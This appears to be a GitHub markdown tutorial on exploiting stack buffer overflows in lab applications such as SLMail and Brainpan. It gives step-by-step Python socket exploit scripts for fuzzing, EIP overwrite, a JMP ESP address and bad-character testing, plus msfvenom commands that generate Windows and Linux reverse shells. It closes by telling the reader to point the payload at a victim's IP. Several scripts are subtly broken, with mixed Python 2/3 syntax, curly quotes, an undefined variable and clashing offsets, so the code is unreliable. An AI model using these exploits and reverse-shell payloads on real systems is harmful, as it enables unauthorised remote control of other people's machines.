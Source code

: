 # **Buffer Overflow**

**Understanding BO from Basic -** https://www.radiojitter.com/buffer-overflow-exploit-part-1/

**BrainPan Exploit -** https://jagskap.blogspot.com/2019/06/brainpan-buffer-overflow.html

## **Exploit Overview**
```
1. Fuzzing
	a. Sending malformed data into application input
2. SLMAIL 5.50 MAil Server
	a. Found in 2005
	b. Affected pop3 pass command
3. Bad Characters
	a. 0x00 - Null byte is also used to terminate strings
	b. 0x0D - Carriage Return - Signifies that the end  of password is reached
	c. 0x0A - Line Feed
4. Use msfpayload	windows/shell_reverse_tcp LHOST=<IP> EXITFUNC=thread LPORT=<Port> R | msfencode -­‐b "\x00\x0a\x0d"
5. Vulnerable Machines/Application -
		a. Linux crossfire
		b. Minishare
		c. SLMAIL
		d. brainpan
```
#### **Easy Access to Next Step -**

1. Copy exe file to windows machine.
2. Run exe in Imunnity debugger.
3. Open a file and write the following command and save it as exploit.py.
```
import socket
import sys
host = 'IP'
port = <port>
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
        print("Connecting to ")+str(host)
        s.connect((host,port))
        	  s.send()
        s.close()
        print("The message has been sent")
except:
        print("Unable to connect to ")+ str(host)
        sys.exit(0)
```
4. Run the following command -
```
python.exe <Path>\exploit.py
!mona config -set workingfolder c:\logs\%p
!mona pc 1000
!mona pattern_offset <33734132>
!mona findmsp → Safeseh- false
```
5. Send junk and EIP
```
import socket
host = <ip>
port = <port>                   # The same port as used by the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
junk=b”A”*548
EIP = b’BBBB’
s.sendall(junk+EIP)
s.close()
print(“The message has been sent.”)
```
6. Find Bad Character -
```
import socket
host='<ip'
port=80
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))         # Connects to the Port in Target machine
junk=b”A”*548
EIP = b’BBBB’
bad_char=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
s.sendall(junk+EIP+bad_char)
s.close()
print(“The message has been sent.”)
```
7.Click on ESP → Rightclick → Follow TCP Dump--> Look for the pattern. If the any character is missing remove the bad character and resend the payload.
8. View → Executable Module -->Safe SEH-->False
9. Rightclick → Search for → JMP ESP
10. Note the Address - 311712F3
11. Replace the EIP with the address as
```
import socket,sys
host = "127.0.0.1"
port = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
junk = (b'A'*524)
EIP = (b'\xF3\x12\x17\x31')
s.sendall(junk+EIP)
s.close()
print("The message has been sent.")
```
13. If EIP doesn't get overwritten try adding nops and see if you can see that in ESP.
```
import socket,sys
host = "<ip>"
port = <port>
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    print "Connecting to " +str(host)
    s.connect((host,port))
    s.recv(1024)
    junk = b"A"*524
    EIP = b'\xf3\x12\x17\x31'
    nops = b"C"*10+b"D"*10
    print "Sending Payload..."
    s.sendall(junk+EIP+nops+payload)
    print "Sent"
except:
    print "Unable to connect " + str(host)
    sys.exit(0)
```
14. ESP shows first 10 D.
15. Create a shell code
```
msfvenom -p windows/shell_reverse_tcp LHOST=<attackerip> LPORT=<attackerport> R -e x86/shikata_ga_nai -b '\x00' -f c
```
16. Listen on <attacker port> on attacker machine
17. Final payload
```
import socket,sys
host = "<ip>"
port = <port>
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    print "Connecting to " +str(host)
    s.connect((host,port))
    s.recv(1024)
    junk = b"A"*524
    EIP = b'\xf3\x12\x17\x31'
    nops = b"\x90"*10
		shellcode = b"...."
    print "Sending Payload..."
    s.sendall(junk+EIP+nops+shellcode)
    print "Sent"
except:
    print "Unable to connect " + str(host)
    sys.exit(0)
```
18. Got shell!! Bingo!!
19. Create a payload for linux machine by using the following code
		#**msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<port> R -e x86/shikata_ga_nai -b '\x00' -f c**
20. Change the host to vicktims IP and execute python code.
21. Got Victims Shell!! Cheers!

